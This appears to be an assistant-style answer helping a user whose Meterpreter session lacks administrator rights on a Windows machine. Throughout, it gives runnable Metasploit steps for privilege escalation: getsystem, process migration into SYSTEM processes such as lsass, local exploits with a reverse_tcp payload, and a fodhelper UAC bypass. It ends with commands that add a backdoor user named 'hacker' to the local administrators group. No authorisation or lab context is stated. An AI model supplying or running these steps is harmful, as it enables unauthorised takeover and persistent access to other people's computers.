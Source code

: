 **Administrator permission error** because the Meterpreter session is running with **regular user privileges**, meaning you don't have the necessary rights to create a new user or elevate privileges. You need to **escalate privileges** first. Here are some ways to do that:

---

## **1. Check Current Privileges**
First, check if you are running as **SYSTEM or Administrator** in Meterpreter:
```
getuid
```
If it returns a standard user (not SYSTEM or Administrator), you need to escalate.

---

## **2. Try Automatic Privilege Escalation**
Run:
```
use post/windows/escalate/getsystem
run
```
If successful, it should elevate you to **NT AUTHORITY\SYSTEM**.

---

## **3. Migrate to a High-Privilege Process**
If `getsystem` fails, try migrating into a process with **higher privileges**:
1. List running processes:
   ```
   ps
   ```
2. Find a process owned by **NT AUTHORITY\SYSTEM** (e.g., `winlogon.exe` or `lsass.exe`).
3. Migrate into it:
   ```
   migrate <PID>
   ```
   Example:
   ```
   migrate 1234
   ```
4. Check if you now have SYSTEM privileges:
   ```
   getuid
   ```

---

## **4. Manually Exploit Privilege Escalation**
If the above methods don’t work, use a **local privilege escalation exploit**.  
Try running:
```
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set SESSION 1
exploit
```
If that doesn't work, search for other local privilege escalation exploits:
```
search type:exploit platform:windows local
```
Pick one that fits your OS and run it.

---

## **5. Try Running a UAC Bypass**
If you have admin privileges but **UAC (User Account Control) is blocking** the command, try:
```
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
exploit
```
This works by abusing `fodhelper.exe` to bypass UAC.

---

## **6. Run Commands as SYSTEM**
If you get SYSTEM privileges, you can execute system commands directly:
```
execute -f cmd.exe -i -H
```
Then, try:
```
net user hacker P@ssw0rd /add
net localgroup administrators hacker /add
```
- If `getsystem` or `bypassuac` fails, the system might be patched. Try finding an **exploit for your OS version**.
- Use `sysinfo` to check the Windows version, then search for privilege escalation exploits.
- If UAC is enabled and blocking commands, bypass it using `bypassuac_fodhelper` or another method.
